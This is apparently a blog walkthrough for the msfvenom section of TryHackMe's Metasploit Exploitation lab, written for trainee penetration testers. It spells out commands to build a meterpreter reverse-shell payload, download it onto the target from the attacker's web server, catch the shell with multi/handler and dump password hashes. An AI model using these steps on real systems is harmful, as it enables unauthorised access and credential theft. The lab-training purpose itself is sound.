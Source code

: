 ```yaml
---
layout: layouts/post.njk
title: "Walkthrough - msfvenom (Metasploit: Exploitation TryHackMe Jr Pen Tester
  Pathway)"
date: 2021-12-03T15:13:26.698Z
tags:
  - metasploit
  - msfvenom
  - tryhackme
  - jrpenetrationtester
  - jrpentester
  - exploitation
---
```

Just a quick one, I had a bit of trouble getting this working so wanted to create a straightforward guide as the ones I read weren't very clear. 

This is for the Metasploit Exploitation room, which is part of the Jr Penetration Tester pathway on TryHackMe. (This is for the MSFVENOM part.) 

I was using the attackbox but you could use your own machine. 

Connect to the target machine from the terminal using -

ssh murphy@TARGET_IP

Enter the password: 1q2w3e4r

Once logged in do - `sudo su`
Then enter the password again to elevate permissions.

Next create your payload in .elf use a different terminal for this - 

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=YOUR_AttackBox_IP LPORT=8080 -f elf > rev_shell.elf`

You can use any port for LPORT but to avoid confusion just use 8080.

Press enter and now you've created the payload. 

You can use the same terminal you used to create the payload on or a new one, run the following and leave it running - 

`python3 -m http.server 9000` 

This is what we use to transfer the payload to the target machine.

From the target machine (the one you are ssh'd on) run this - 

`wget http://Your_attackbox_IP:9000/rev_shell.elf`

It should then connect and you will see it download the rev_shell.elf file.

![](/images/capture-2-.png "Here is the rev_shell.elf file downloaded.")

You can check it's downloaded by doing `ls` which will list what's in that directory and you will see the rev_shell.elf file listed, if it's not there go back over the above steps and figure out where you may have gone wrong.

Now to get a meterpreter session you need to open another terminal.

Type `msfconsole` to start Metasploit.

Once loaded do this one line at a time from the metasploit console - 



```
use exploit/multi/handler

set payload linux/x86/meterpreter/reverse_tcp

set LHOST YOUR_ATTACKBOX_IP

set LPORT 8080

exploit
```

Now go back to the SSH session for the target machine and do the following one line at a time. 

```
chmod +x rev_shell.elf

./rev_shell.elf
```

The second line here is what runs the rev_shell.elf file, so once run your Metasploit console where you ran the command `exploit` from should now have changed to say `meterpreter >`.

![](/images/capture-3-.png "Here is the running of the .elf file from the target machine. ")

In the meterpreter session do the following. 

`run post/linux/gather/hashdump`

You should now get a list of password hash's for the different users, copy the hash for Claire (You will want to copy everything from the $6$ to the bep0.)

You can now paste this into the question "What is the other user's password hash?" to complete this room.



Hope this helped!